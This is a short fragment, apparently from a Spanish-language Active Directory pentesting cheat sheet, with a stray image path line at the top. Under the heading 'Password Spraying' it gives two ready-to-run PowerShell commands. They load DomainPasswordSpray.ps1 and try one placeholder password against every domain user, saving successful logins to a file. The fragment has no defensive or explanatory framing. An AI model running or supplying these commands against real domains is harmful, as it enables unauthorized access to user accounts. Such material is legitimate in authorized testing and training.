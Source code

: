 ### Password Spraying - Fuerza bruta usando una contraseña en particular a todos los usuarios del dominio:
$ import-module .\DomainPasswordSpray.ps1
$ Invoke-DomainPasswordSpray -Password {PASSWORD} -OutFile spray_success -ErrorAction SilentlyContinue